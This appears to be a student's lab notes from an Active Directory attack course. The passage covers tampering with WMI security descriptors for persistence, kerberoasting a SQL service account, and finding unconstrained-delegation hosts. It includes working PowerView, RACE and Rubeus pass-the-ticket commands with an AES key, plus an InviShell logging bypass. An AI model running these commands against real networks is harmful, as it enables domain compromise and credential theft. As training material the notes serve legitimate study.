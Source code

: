 >winrs -r:dcorp-dc cmd

Works !!!

---
==Modify security descriptors + silver ticket attack== obj 13

get a session of cmd as svcadmin and try to connect with DC to check if it works. The come out of DC, run these commands
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\RACE.ps1
Set-RemoteWMI -SamAccountName studentx -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```
then we can run query suing
```
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```

---
Learning obj 14
==Using kerberoast to crack password of sql server service account==
MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local -flag

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -SPN
```
we then see svcadmin is a domian admin and has an SPN

we find the hash using rebues and then crack using JTP

---
Obj 15
==Find a server in the dcorp domain where Unconstrained Delegation is enabled.==

```
Get-DomainComputer -Unconstrained | select -ExpandProperty name
```
we get 2 results
DCORP-DC
DCORP-APPSRV

since we need admin access Unconstrained delegation, we had app admin hashes from previous steps.

we do argsplit for asktgt
and then we run
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
in the new process
run
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local
```
